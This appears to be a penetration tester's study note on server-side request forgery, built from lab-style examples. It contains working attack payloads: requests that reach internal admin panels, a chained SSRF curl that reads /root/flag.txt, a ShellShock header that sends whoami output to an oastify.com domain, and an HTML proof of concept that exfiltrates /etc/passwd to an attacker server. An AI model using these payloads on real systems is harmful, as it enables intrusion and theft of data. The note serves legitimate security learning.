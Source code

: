 Server-side request forgery (also known as SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make requests to an unintended location.

In a typical SSRF attack, the attacker might cause the server to make a connection to internal-only services within the organization's infrastructure. In other cases, they may be able to force the server to connect to arbitrary external systems, potentially leaking sensitive data such as authorization credentials.

## SSRF attacks against the server itself

In an SSRF attack against the server itself, the attacker induces the application to make an HTTP request back to the server that is hosting the application, via its loopback network interface.

Main point of intrests:
- Pages accessible only from localhost (like administrative panels)
- Services on other ports

>[!example]
>Original request:
>```http
>POST /product/stock HTTP/1.0
>Content-Type: application/x-www-form-urlencoded
>Content-Length: 118
>
>stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1>
>```
>
> Malicious request:
> ```http
> POST /product/stock HTTP/1.0
>Content-Type: application/x-www-form-urlencoded
>Content-Length: 118
>
>stockApi=http://localhost/admin
>```

Depending on the library used to issue the requests (eg. python [urllib](https://docs.python.org/3.8/library/urllib.html)), also other protocols may be supported and mis-used:
- `file://`
- `ftp://`
## SSRF attacks against other servers

SSRF against other servers often arises when the application server is able to interact with other back-end systems that are not directly reachable by users. 
These systems often have non-routable private IP addresses and often have a weaker security posture. In many cases, they contain sensitive functionality often accessibile  without authentication.

>[!example]
>Request against an internal, non-routed, administrative panel:
>
>```http
>POST /product/stock HTTP/1.1
Host: 0ae400fb040404ddc56df732005a00ae.web-security-academy.net
Cookie: session=jQGNv9ozVPtY2SdltFQVanHUn7mzqQsk
Content-Length: 73
Connection: close
>
>stockApi=http://192.168.0.100:8080/admin/delete?username=carlos&storeId=1
>```

>[!tip] Chain multiple SSRF!
>Remember that you can chain multiple SSRF in order to increase the attack surface! However, **you must url-encode parameters and special characters one time for every component you are going trough**:
>
>Eg with 3 nodes: `curl -i -s "http://10.129.201.238/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=cat%252520%25252Froot%25252Fflag%25252Etxt"` (`cat /root/flag.txt` has been url-encoded 3 times)
## Blind SSRF

Blind SSRF vulnerabilities arise when an application can be induced to issue a back-end HTTP request to a supplied URL, but the response from the back-end request is not returned in the application's front-end response.

Blind SSRF can be found using [OAST](https://portswigger.net/burp/application-security-testing/oast) techniques and sometimes also looking at response times.

>[!note]
>It is common when testing for SSRF vulnerabilities to observe a DNS look-up for the supplied Collaborator domain, but no subsequent HTTP request. This typically happens because the application attempted to make an HTTP request to the domain, which caused the initial DNS lookup, but the actual HTTP request was blocked by network-level filtering. It is relatively common for infrastructure to allow outbound DNS traffic, since this is needed for so many purposes, but block HTTP connections to unexpected destinations.

Identifying a blind SSRF vulnerability that can trigger out-of-band HTTP requests doesn't in itself provide a route to exploitability. However, it can still be leveraged to probe for other vulnerabilities. You can blindly sweep the internal IP address space, sending payloads designed to detect well-known vulnerabilities. If those payloads also employ blind out-of-band techniques, then you might uncover a critical vulnerability on an unpatched internal server.

Another avenue for exploiting blind SSRF vulnerabilities is to induce the application to connect to a system under the attacker's control, and return malicious responses to the HTTP client that makes the connection. If you can exploit a serious client-side vulnerability in the server's HTTP implementation, you might be able to achieve remote code execution within the application infrastructure. [^1]

[^1]: https://portswigger.net/research/cracking-the-lens-targeting-https-hidden-attack-surface#remoteclient

>[!example] Exploit a blind SSRF to exfiltrate usernames from targets vulnerable to ShellShock
>```http
GET /product?productId=1 HTTP/1.1
Host: 0a240091041ee9e2c2e8e317006a00a4.web-security-academy.net
Cookie: session=N0jjt4vE0NGhsIgr52oW9MFtvlSuBLv2
Upgrade-Insecure-Requests: 1
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).cp5wj8xh4c0qaefd19tzdw6dh4nvbuzj.oastify.com
Referer: http://192.168.0.§0§:8080/
Connection: close
>```

## Other attack surface

- Partial URLs in requests (eg. only a hostname or part of a URL path into request parameters)
- URLs within data formats
	- XML leading to SSRF using [XML External Entity Injection (XXE Injection)](XML%20External%20Entity%20Injection%20(XXE%20Injection).md), 
	- File converters or parsers and HTML files containing images (Eg. wkhtmltopdf [^html2pdf])
- Referer header or other headers ([Host header SSRF attacks (aka Routing-based SSRF)](Host%20Header%20attacks.md#Host%20header%20SSRF%20attacks%20(aka%20Routing-based%20SSRF)))
- [SSRF registering an arbitrary OpenID Connect client application](OpenID%20Connect%20attacks.md#SSRF%20registering%20an%20arbitrary%20client%20application)

[^html2pdf]: [wkhtmltopdf](https://wkhtmltopdf.org/downloads.html), wkhtmltopdf.org

PoC for leaking arbitrary files when converting HTML to PDF:
```html
<html>
    <body>
        <b>Exfiltration via Blind SSRF</b>
        <script>
        var readfile = new XMLHttpRequest(); // Read the local file
        var exfil = new XMLHttpRequest(); // Send the file to our server
        readfile.open("GET","file:///etc/passwd", true); 
        readfile.send();
        readfile.onload = function() {
            if (readfile.readyState === 4) {
                var url = 'http://<SERVICE IP>:<PORT>/?data='+btoa(this.response);
                exfil.open("GET", url, true);
                exfil.send();
            }
        }
        readfile.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
     </body>
</html>
```

Other PoCs:
- [Exploiting PDF Generators: A Complete Guide to Finding SSRF Vulnerabilities in PDF Generators](../../Readwise/Articles/blackbird-eu%20-%20Exploiting%20PDF%20Generators%20A%20Complete%20Guide%20to%20Finding%20SSRF%20Vulnerabilities%20in%20PDF%20Generators.md)

## SSRF evasion and bypasses

- [Evading Restrictions](Evading%20Restrictions.md)
- [SSRF bypass list by h4x0r_fr34k](../../Readwise/Tweets/@h4x0r_fr34k%20on%20Twitter%20-%20Tweets%20From%20VAIDIK%20PANDYA.md#^2da607)
- [A New Era of SSRF](https://portswigger.net/research/top-10-web-hacking-techniques-of-2017#1)
- [PortSwigger Research - Introducing the URL Validation Bypass Cheat Sheet](../../Readwise/Articles/PortSwigger%20Research%20-%20Introducing%20the%20URL%20Validation%20Bypass%20Cheat%20Sheet.md) #tools 
- [DNS rebinding](../Services/DNS%20-%20Domain%20Name%20System.md#DNS%20rebinding)

## External resources and tools

- [HackTrick (SSRF)](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)
- [Targeting auxiliary systems](https://portswigger.net/research/cracking-the-lens-targeting-https-hidden-attack-surface#aux)
- [SSRFPwned](https://github.com/blackhatethicalhacking/SSRFPwned) - Checks for SSRF using built-in custom Payloads after fetching URLs from Multiple Passive Sources & applying complex patterns aimed at SSRF
- [Exploiting PDF Generators: A Complete Guide to Finding SSRF Vulnerabilities in PDF Generators](../../Readwise/Articles/blackbird-eu%20-%20Exploiting%20PDF%20Generators%20A%20Complete%20Guide%20to%20Finding%20SSRF%20Vulnerabilities%20in%20PDF%20Generators.md)
- [SSRF: A complete guide to exploiting advanced SSRF vulnerabilities](https://blog.intigriti.com/hacking-tools/ssrf-a-complete-guide-to-exploiting-advanced-ssrf-vulnerabilities)
- [Introducing the URL Validation Bypass Cheat Sheet](../../Readwise/Articles/PortSwigger%20Research%20-%20Introducing%20the%20URL%20Validation%20Bypass%20Cheat%20Sheet.md) #tools 
- [NTLM Credential Theft in Python Windows Applications](https://www.horizon3.ai/attack-research/disclosures/ntlm-credential-theft-in-python-windows-applications/), horizon3.ai